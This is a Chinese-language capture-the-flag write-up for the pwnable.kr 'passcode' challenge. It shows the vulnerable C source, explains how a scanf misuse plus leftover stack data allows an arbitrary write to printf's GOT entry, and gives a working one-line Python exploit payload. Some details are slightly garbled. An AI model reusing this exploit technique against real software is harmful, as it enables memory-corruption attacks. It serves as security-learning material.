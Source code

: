 # Pwnable.kr Passcode 详解

## 源代码
```cpp
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    scanf("%d", passcode1);
    scanf("%d", passcode2);

    printf("heihei~");

    if(passcode1==338150 && passcode2==13371337) {
        printf("Login OK!\n");
        system("/bin/cat flag");
    }
}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    welcome();
    login();
    return 0;
}
```

## 分析
很容易知道了，是`scanf`那里出了问题，应该是`scanf("%d", passcode1)`，结果题目用了`scanf("%d", passcode1)`，这个错误导致我们可以更改`passcode1`指向的地址块。(同理`passcode2`)

但是怎么控制`passcode`这两个数？还是经验不够，明明以前做过这种类似的：`welcome()`和`login()`函数是并列关系，所以`welcome()`执行完成后可能会有残留东西放在了`login()`中。本题很明显，`welcome()`里面的`name`是我们可以输入的，所以可以控制这些残留东西。

程序没开PIE，那这个真的太简单了。然而你以为就结束了？当然不是，否则我也不会单独写一篇文章了。首先第一点，好巧不巧，只能改掉`passcode1`，改不了`passcode2`。现在回头看看，真的太惯性思维了，老是想着怎么改`passcode2`。其实想想，我们现在不就是有了一次任意地址写的机会吗！所以只要把`printf_got`改成`system('/bin/sh')`就好了呀...

第二个问题，我要传入的地址它不是可打印的，这怎么办？
用Python呀，最终`python -c "print 'A' * 96 + '\x00\xa0\x04\x08' + '134514147\n'" | ./passcode`

## 总结
- 并列函数一定要敏感，敏感，敏感！！
- 本题整体看看吧

